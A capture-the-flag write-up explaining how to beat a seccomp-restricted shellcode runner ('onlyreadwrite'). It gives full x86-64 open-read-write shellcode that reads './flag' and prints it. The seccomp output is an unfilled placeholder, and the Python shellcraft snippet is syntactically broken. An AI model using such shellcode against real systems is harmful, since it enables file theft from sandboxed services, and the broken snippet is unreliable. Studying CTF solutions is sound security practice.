 # onlyreadwrite

This challenge reads shellcode from stdin and executes it. The problem is that the syscalls that we can use are limited.

## What syscalls can we use?

To find out what syscalls we can use there is the following command:

```bash
seccomp-tools dump ./onlyreadwrite
```

Some details about the tool can be found [here](https://github.com/david942j/seccomp-tools).

The output of the command is the following:

```bash
INSERT HERE...
```

## The shellcode

Now that we know that we can use just a few syscalls, we can start writing the shellcode.

The idea was to use shellcraft to generate the shellcode for the open-read-write sequence.

```python
shellcode = pwnlib.shellcraft.amd64.linux.open('./flag', 0, 0)
shellcode += pwnlib.shellcraft.amd64.linux.read(FD_READ, 'rsp', 100)
shellcode += pwnlib.shellcraft.amd64.linux.write(FD_WRITE = 1, 'rsp', 100)
```

The problem is that (afaik) there is no way to get the file descriptor from the open syscall and use it as argument for the read.

So i generated the assembly from shellcraft and slightly modified it to get the file descriptor in RDI (where the read syscall expects it).

```asm
/* push './flag' on the stack */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax

/* call open(RDI -> './flag', 0, 0) */
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
push SYS_open /* 2 */
pop rax /* -> 2 */
syscall

/* call read(RDI -> RAX = fd of './flag', RSI = 'rsp', RDX = 0x64) */
push rax
xor eax, eax /* SYS_read */
pop rdi /* -> fd  returned by open. **This is what I had to change** */
push 0x64
pop rdx
mov rsi, rsp
syscall

/* call write(fd=1 (stdout), RSI = 'rsp', RDX =0x64) */
push 1
pop rdi
push 0x64
pop rdx
mov rsi, rsp
push SYS_write /* 1 */
pop rax
syscall
```

Basically it is opening the file, reading it on the stack and then writing it on stdout.
